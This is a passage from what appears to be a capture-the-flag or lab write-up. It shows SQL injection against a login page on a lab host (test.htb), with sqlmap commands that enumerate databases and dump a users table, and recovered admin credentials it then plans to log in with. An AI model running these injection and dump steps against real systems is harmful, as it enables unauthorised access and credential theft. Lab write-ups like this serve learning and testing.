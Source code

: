 I've tried put ' at the number to see there vulnerable SQL Injection or no and there is error so let's we inject it with automation tools by sqlmap

```
└─# sqlmap -u "http://test.htb/login/edit.php?id=5" --dbs                                                                                                                                  
```

![](2024-02-09-11-22-54.png)

The database is `webedition` so let's we dump again . 

```
└─# sqlmap -u "http://test.htb/login/edit.php?id=5" -D webedition -T users -C username --dump-all
```

```
+----+----------------+----------+
| id | password       | username |
+----+----------------+----------+
| 1  | Admin@12132132 | test     |
| 2  | Admin@12132132 | admin    |
+----+----------------+----------+
```
Now we try login admin login with this user pass .
